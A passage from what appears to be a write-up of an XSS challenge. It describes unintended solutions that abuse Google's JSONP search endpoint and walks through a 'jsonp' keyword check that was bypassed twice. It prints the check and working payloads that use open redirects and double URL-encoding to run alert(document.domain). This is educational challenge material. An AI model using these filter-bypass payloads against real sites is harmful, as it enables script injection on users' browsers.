 Note: somehow hexo throw error if I used `}{`, so I changed to `[[]]`

## Unintended

Besides the intended solution, there are 4 amazing unintended solutions.

### Unintended #1 by @maple3142

At first, I didn't know there was a `jsonp` argument in `https://www.google.com/complete/search` endpoint, so there was no check for `jsonp`.

It's east to get a XSS by loading something like `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(document.domain)//`

Later on, I implemented a [check](https://github.com/aszx87410/xss-challenge/commit/26322b72a3c45aa1751d46253455a64d94d051d8) for `jsonp` in `reloadRecaptchaScript`:

``` js
if (src.includes('jsonp') || decodeURIComponent(src).includes('jsonp')) {
  throw new Error('dangerous keyword detected')
}
```

### Unintended #2 by @smaury92

It turns out that I implemented a flawed check, can you spot the bug?

You can bypass the check by open redirect and double encoded the `https://google.com/complete/search` call, like this:

``` js
reloadRecaptchaScript('https://www.google.com/recaptcha/../url?q=https://www.google.com/complete/search?client=chrome%26q=%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%37%37%25%37%37%25%37%37%25%32%65%25%36%37%25%36%66%25%36%66%25%36%37%25%36%63%25%36%35%25%32%65%25%36%33%25%36%66%25%36%64%25%32%66%25%36%33%25%36%66%25%36%64%25%37%30%25%36%63%25%36%35%25%37%34%25%36%35%25%32%66%25%37%33%25%36%35%25%36%31%25%37%32%25%36%33%25%36%38%25%33%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%33%64%25%36%33%25%36%38%25%37%32%25%36%66%25%36%64%25%36%35%25%32%36%25%36%61%25%37%33%25%36%66%25%36%65%25%37%30%25%33%64%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34%25%32%38%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%36%34%25%36%66%25%36%64%25%36%31%25%36%39%25%36%65%25%32%39%25%32%66%25%32%66%2523%26callback=loadScript%231')
```

So it passed the check for `reloadRecaptchaScript`.

I decided the move the check from `reloadRecaptchaScript` to `loadScript`: https://github.com/aszx87410/xss-challenge/commit/7382e9b48721b1dd9edcd21675e1e7f56d171c2c

### Unintended #3 by @lbrnli1234

The check failed again.

payload:

``` js
reloadRecaptchaScript('https://www.google.com/recaptcha/../url?q=https%3A%2F%2Fwww.google.com%2Fcomplete%2Fsearch%3Fclient%3Dhp%26q%3Da%26%256asonp%3Dalert(document.domain)')
```
